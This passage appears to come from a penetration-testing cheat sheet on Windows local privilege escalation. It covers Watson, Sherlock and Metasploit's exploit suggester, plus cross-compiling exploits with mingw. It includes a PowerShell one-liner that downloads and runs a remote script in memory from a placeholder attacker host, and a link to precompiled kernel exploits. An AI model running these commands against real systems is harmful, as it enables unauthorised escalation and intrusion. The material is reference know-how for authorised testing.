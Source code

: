 `Watson` (replaces `Sherlock`) is a .NET tool designed to enumerate missing KBs
and suggest exploits. Only works on Windows 10 (1703, 1709, 1803 & 1809) and
Windows Server 2016 & 2019.

`Watson` must be compiled for the .NET version supported on the target.

*Sherlock (outdated)*

Outdated: Microsoft changed to rolling patches on Windows instead of hotfixes
per vulnerability, making the detection mechanism of `Sherlock` non functional.

PowerShell script to find missing software patches for critical vulnerabilities
that could be leveraged for local privilege escalation.

To download and execute directly into memory:

```
# CMD
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<Port>/Sherlock.ps1')"; Find-AllVulns

# PowerShell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<Port>/Sherlock.ps1'); Find-AllVulns
```

*(Metasploit) Local Exploit Suggester (outdated)*

The `local_exploit_suggester` module suggests local `meterpreter` exploits that
can be used against the target, based on the architecture and platform as well as
the available exploits in `meterpreter`.

 ```
meterpreter> run post/multi/recon/local_exploit_suggester

# OR

msf> use post/multi/recon/local_exploit_suggester
msf post(local_exploit_suggester) > set SESSION <session-id>
msf post(local_exploit_suggester) > run
```

###### Pre compiled exploits

A collection of pre compiled Windows kernel exploits can be found on the
`windows-kernel-exploits` GitHub repository. Use at your own risk.

```
https://github.com/SecWiki/windows-kernel-exploits
```

###### Compilers

*mingw*

An exploit in C can be compiled on Linux to be used on a Windows system using
the cross-compiler `mingw`:

```
# 32 bits
i686-w64-mingw32-gcc -o exploit.exe exploit.c

# 64 bits
x86_64-w64-mingw32-gcc -o exploit.exe exploit.c
```

